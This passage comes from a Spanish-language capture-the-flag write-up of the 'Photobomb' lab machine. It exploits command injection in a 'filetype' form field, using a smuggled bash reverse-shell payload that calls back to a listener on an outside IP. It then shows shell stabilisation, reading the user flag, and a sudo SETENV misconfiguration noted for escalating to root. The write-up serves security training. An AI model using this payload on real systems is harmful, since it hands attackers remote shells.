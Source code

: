 El parametro `filetype` es vulnerable a inyección de comandos.

Ahora obtengamos acceso al sistema con una reverse shell:

```
photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=jpg;bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.21/443+0>%261"&dimensions=3000x2000
```

{% highlight bash %}
❯ nc -lvnp 443
Connection from 10.10.11.182:39576
bash: cannot set terminal process group (731): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ script /dev/null -c bash #Iniciar un nuevo proceso
script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ ^Z # CTRL + Z
[1]  + 8086 suspended  nc -lvnp 443
❯ stty raw -echo; fg #Establecer ciertas opciones de la tty
[1]  + 8086 continued  nc -lvnp 443
                                   reset xterm #Inicializar terminal

wizard@photobomb:~$ export TERM=xterm #Establecer el tipo de terminal
wizard@photobomb:~$ stty rows 37 columns 151 #Establecer filas y columnas de la tty
{% endhighlight %}

Ya estando dentro del sistema podremos ver la primera flag:

{% highlight bash %}
wizard@photobomb:~/photobomb$ ls
log  photobomb.sh  public  resized_images  server.rb  source_images
wizard@photobomb:~/photobomb$ cd ..
wizard@photobomb:~$ ls
photobomb  user.txt
wizard@photobomb:~$ cat user.txt
3d63374bfeba83ea141c***********
wizard@photobomb:~$ 
{% endhighlight %}

Ahora es tiempo de tomar control del usuario root.

<h2>ESCALADA DE PRIVILEGIOS</h2>

Si miramos nuestros privilegios asignados en sudoers, encontramos esto:

{% highlight bash %}
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
{% endhighlight %}

Podemos ejecutar como root el script cleanup.sh sin necesidad de introducir la contraseña y controlando
las variables de entorno.
